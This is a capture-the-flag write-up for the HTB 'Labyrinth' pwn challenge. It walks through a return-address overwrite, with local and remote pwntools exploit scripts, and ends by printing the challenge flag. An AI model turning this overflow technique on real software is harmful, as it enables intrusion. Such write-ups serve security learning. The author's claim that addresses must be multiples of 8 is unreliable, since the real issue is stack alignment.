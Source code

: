 ```yaml
---
external: false
draft: false
title: PWN - Labyrinth
snippet: ""
image:
  {
    src: "/images/htb/htb_ca_ctf.png",
    alt: "full stack web development",
  }
publishDate: 2023-03-21
category: "HTB Cyber Apocalypse"
author: "Ugur Ilter"
tags: [ctf, hacking, security]
---
```


```
Labyrinth
You find yourself trapped in a mysterious labyrinth, with only one chance to escape.
Choose the correct door wisely, for the wrong choice could have deadly consequences.

Points: 300
Difficulty: Easy
```

In this challenge you are given a docker instance and also some files that you can download.
The archive consisted of 2 files (flag.txt, labyrinth) and a folder which had some linux shared objects for the binary to run.

Once you run the binary you are welcomed by an ascii art and a prompt asking you for a door number.

```
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
```

So i throw the binary to my decompiler and found out that the correct door number is '69' or '069'.

![HTB](/images/htb/pwn/labyrinth/correct_door.png)

After entering the correct door number we are again left with a new prompt.

```
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
```

No matter what input you enter it does not work. Also looking at the decompiled source code there was no way to get the flag by entering 'some correct answer'.
This challenge requires a buffer overflow attack, so i created a new python script using pwntools. During my codewalk in the decompiled source i saw the function called 'escape_plan' which actually does open 'flag.txt' file and print out the flag. So i first needed the address of 'escape_plan' function, which i got via objdump.

![HTB](/images/htb/pwn/labyrinth/func_address.png)

With the address (0x401255) in hand i tried sending different sizes of payloads to detect the offset required for rip register so i could inject the address of 'escape_plan' there to execute and get the flag. So the offset was 56. Afte that, i tried with the script and i was able to get the ascii art showing me that i was able to escape the labyrinth but there was no flag ! After a while (couple of hrs) i realized my mistake here and changed the address with 0x401256 since 0x401255 was not multiple of 8-bytes (64 bit addresses !).
With the new fix in hand i was able to get the local flag.

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

binary_path = "labyrinth"
elf         = ELF(binary_path)
offset = 56
# new_rip = p64(elf.symbols["escape_plan"])     # 0x401255 was not multiple of 8 !!!
return_address = p64(elf.symbols["main"])

payload = b"".join(
    [
        b"A"  * offset,
        # new_rip,                              # get rid of this and use 0x401256
        b'\x56\x12\x40\x00\x00\x00\x00\x00',
        return_address
    ]
)

with open("payload", "wb") as filp:
    filp.write(payload)

io = process(elf.path)
io.recvregex(b'>>')
io.sendline(b'069')
io.recvregex(b'>>')
io.sendline(payload)
print_lines(io)
```

Now it was time to create a new script with pwntools to run the bof attack on remote docker instance.

```python
#!/usr/bin/python3.8
from pwn import *

def print_lines(io):
    info("printing io received lines")
    while True:
        try:
            line = io.recvline()
            success(line.decode())
        except EOFError:
            break

# Setup and open connection
IP   = '165.227.224.40' # Change this
PORT = 30575            # Change this
r    = remote(IP, PORT)

# Craft payload
offset = 56
padding = b"A" * offset
retaddr = p64(0x401256)
payload = b"".join([padding, retaddr])

# Wait for prompt
print(r.recvregex(b'>>').decode())

# Send first input
r.sendline(b'069')

# Wait for new prompt
print(r.recvregex(b'>>').decode())

# Send payload
r.sendline(payload)

# Get the flag !
print_lines(r)
```

![HTB](/images/htb/pwn/labyrinth/flag.png)

```
Flag: HTB{3sc4p3_fr0m_4b0v3}
```